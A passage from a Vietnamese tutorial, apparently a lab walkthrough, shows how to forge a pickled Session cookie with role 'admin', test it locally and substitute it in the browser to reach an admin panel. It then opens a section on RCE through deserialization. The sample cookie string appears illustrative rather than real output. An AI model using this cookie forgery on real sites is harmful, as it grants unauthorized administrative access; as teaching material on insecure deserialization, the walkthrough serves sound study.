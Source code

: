 - Trong `Session`, chúng ta chỉ quan tâm đến `username` và `role` và bỏ qua các phương thức không cần thiết, vì khi đối tượng được **pickle**, chỉ có giá trị của các biến này là quan trọng.

#### **4. Tạo Cookie Giả Mạo**
Chúng ta sẽ sử dụng đối tượng `Session` giả mạo, với tên người dùng là `"attacker"` và quyền là `"admin"`, rồi tạo cookie tương ứng:
```python
import util.auth

s = util.auth.Session("attacker", "admin")
c = util.auth.sessionToCookie(s)
print(c.decode())
```

Kết quả của lệnh trên sẽ là một chuỗi base64 mã hóa đối tượng `Session` mà chúng ta có thể sử dụng làm giá trị của cookie. Ví dụ kết quả có thể là:
```
gASVRgAAAAAAAACMCXV0aW4uYXV0aGVyaW4uYWRtaW4uYXBwLi5pY29zZG9u
```

#### **5. Kiểm Tra Lọc Lỗi**
Trước khi thử nghiệm trên máy chủ thực tế, chúng ta có thể kiểm tra mã trên môi trường địa phương (local) để chắc chắn rằng việc giải mã cookie hoạt động đúng:
```python
>>> import util.auth
>>> s = util.auth.cookieToSession('gASVRgAAAAAAAACMCXV0aW4uYXV0aGVyaW4uYWRtaW4uYXBwLi5pY29zZG9u')
>>> s.username
'attacker'
>>> s.role
'admin'
```
Kết quả là chúng ta có thể thấy rằng đối tượng `Session` được tạo với tên người dùng `"attacker"` và quyền `"admin"`, xác nhận rằng việc tấn công có thể thành công.

#### **6. Tấn Công Thực Tế**
Bây giờ, chúng ta có thể áp dụng cookie giả mạo vào trình duyệt của mình:
- **Bước 1**: Thay thế giá trị của cookie `auth_8bH3mjF6n9` bằng chuỗi base64 mà ta đã tạo được trong phần thử nghiệm.
- **Bước 2**: Tải lại trang **Admin Panel**.

Kết quả: Trang web sẽ giải mã cookie giả mạo và nghĩ rằng người dùng là một quản trị viên, từ đó cho phép truy cập vào **Admin Panel**.

---
# 10. Tấn công Remote Code Execution (RCE) qua Serialization (Object Injection)

#### **1. Mục tiêu**
Mục tiêu của phần này là **lợi dụng lỗ hổng trong việc giải mã đối tượng (deserialization)** để thực hiện một **Remote Code Execution (RCE)** trên máy chủ web, cho phép kẻ tấn công chạy mã lệnh từ xa.
